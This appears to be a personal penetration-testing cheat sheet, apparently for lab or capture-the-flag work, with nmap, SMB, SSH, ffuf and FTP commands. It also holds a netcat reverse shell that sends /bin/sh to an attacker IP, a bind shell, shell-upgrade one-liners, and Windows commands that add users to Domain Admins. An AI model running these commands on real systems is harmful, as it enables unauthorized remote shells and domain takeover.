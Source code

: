 # NMAP
~~~
nmap -T4 -p- -A <target ip>
~~~
# Python Webserver
~~~
python3 -m http.server <port>
~~~

# Netcat
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~
## Reverse Shell
### Attacker Listener
nc -nlvp 4444

### Target Connecting
nc 192.168.1.2 4444 -e /bin/sh

## Bind Shell
### Attacker Connecting
nc 192.168.1.2 4444

### Target Listener
nc -nvlp 4444 -e /bin/sh
~~~

# TTY Shell
~~~
## Using python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'

## Echo
echo 'os.system('/bin/bash')'

## sh
/bin/sh -i

## bash
/bin/bash -i

## Perl
perl -e 'exec "/bin/sh";'

## From within VI
:!bash
~~~
# System Info
~~~
uname -a
~~~
# Privilege Escalation Check
~~~
sudo -l
~~~
# OpenVPN
~~~
sudo openvpn <file>.vpn
~~~
# ffuf
~~~
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://<ip>/FUZZ
~~~
# SSH
~~~
#Specify specific file to authenticate
ssh -i <privatekeyfile> <username>@<ipaddress>
ssh -i id_rsa john@10.10.6.100
~~~
# Net use/user/group/share/..
~~~
# change password
net use <username> <new password>
net use <username> <new password> /domain

# connect user
net use \<fqdn | ip address>\ipc$ /user:<username>
net use \<fqdn | ip address>\ipc$ /user:<domain>\<username>

# add user to local group
net localgroup <groupname> <username> /add

# add user to a domain group
net group "Domain Admins" <username> /add /domain

# add user to a domain
net user <new username> /add /domain
~~~
# smbmap
~~~
smbmap -H <targetip> -u 'anonymous'
smbmap -H <targetip> -u 'guest'
~~~
# SMB
![afbeelding](https://github.com/user-attachments/assets/f0f99542-4082-4e29-8b88-f752714038f5)
https://www.computerhope.com/unix/smbclien.htm 
~~~
* You can make use of // or \\\\...\\
* Don't forget sudo if you want to download to your own folder
## List SMB shares
smbclient -L \\\\<target ip>\\

## Connect to SMB share
smbclient \\\\<target ip>\\<share>
smbclient \\\\<target ip>\\<share> -U <user>
smbclient \\\\<target ip>\\<share> -U <user>%<password>
smbclient \\\\<target ip>\\<share> -U <user> -p <port>

smbclient "//<target ip>/<share with space in name>" -U "<domain>\\<username>"
smbclient "\\\\<target ip>\\<share with space in name>" -U "<domain>\\<username>"

## Commands
cd
dir
put
more
get <remote-file> <local-file name>
exit
~~~
# FTP
~~~
Command/Option | Description
ftp ftp.example.com	 |Connect to an FTP server
open ftp.example.com	| Connect to an FTP server
user username password	| Log in with username and password
ls	| List files in the current directory
cd /path/to/dir	| Change remote directory
get file.txt	| Download a file from the server
put file.txt	| Upload a file to the server
mget *.txt	| Download multiple files
mput *.txt	| Upload multiple files
delete file.txt	| Delete a file on the server
mkdir newdir	| Create a new directory on the server
rmdir olddir	| Remove a directory on the server
bye	| Close the connection and exit
~~~
